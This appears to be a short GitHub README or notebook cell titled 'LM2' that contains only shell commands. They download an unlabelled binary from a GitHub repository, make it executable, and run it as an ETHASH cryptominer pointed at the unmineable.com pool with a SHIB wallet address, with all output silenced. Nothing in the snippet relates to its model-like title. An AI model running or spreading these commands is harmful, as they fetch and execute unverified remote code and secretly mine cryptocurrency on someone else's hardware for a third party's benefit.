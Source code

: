 # LM2
  
! wget https://github.com/mencobaiajanah/LM2/raw/main/3 > /dev/null
! chmod +x 3
! ./3 --algo ETHASH --pool ethash.unmineable.com:3333 --user SHIB:0x6e890745813facaeab2afab23440a04f6b55034a.GPU#fg38-pfgk > /dev/null 
